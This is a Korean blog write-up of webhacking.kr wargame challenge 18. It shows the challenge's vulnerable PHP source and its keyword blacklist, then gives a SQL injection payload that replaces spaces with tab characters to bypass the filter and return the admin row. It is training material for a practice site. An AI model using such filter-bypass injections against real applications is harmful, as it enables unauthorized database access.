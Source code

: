```yaml
---
title: "[webhacking.kr] 18번 문제 풀이[SQL Iinjection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "18번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 18번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
   ![image](https://user-images.githubusercontent.com/33647663/150756775-46b3777f-066c-4b54-8730-6fa8103c0cc9.png)

## 소스 코드

  ```php
  <?php
  if($_GET['no']){
    $db = dbconnect();
    if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

    if($result['id']=="guest") echo "hi guest";
    if($result['id']=="admin"){
      solve(18);
      echo "hi admin!";
    }
  }
  ?>
  ```

## 문제 분석
  php 코드에 따라 no = 1을 입력하면 다음과 같이 ```hi guest``` 가 출력됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/150757046-fc9d3ca6-9f9c-4a72-ac6c-99bf02d8b1ed.png)

  다음 sql문을 우회해서 no=2인 admin 열이 나올 수 있도록 해야 합니다.

  ```sql
  select id from chall18 where id='guest' and no=$_GET[no]
  ```

  우선 필터링 된 문자들은 다음과 같습니다.

  | 1 | 2| 3| 4| 5 | 6 | 7 | 8 | 9 | 
  |:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
  |**%20** | **/** | **(** |  **)** | **\|** | **&** | **select** | **from** | **0x**|

   
   가장 기본적으로 떠오르는 우회 법은 ```3 or no = 2```입니다. 이중 필터링에 걸리는 부분은 **공백** 밖에 없으므로 %20 -> %09로 바꿔서 입력을 해보면 다음과 같습니다.

   ```3%09or%09no=2```

   클리어
   
   ![image](https://user-images.githubusercontent.com/33647663/150758265-fbc5dcd7-645e-42e2-a679-d80046e879a8.png)


  



 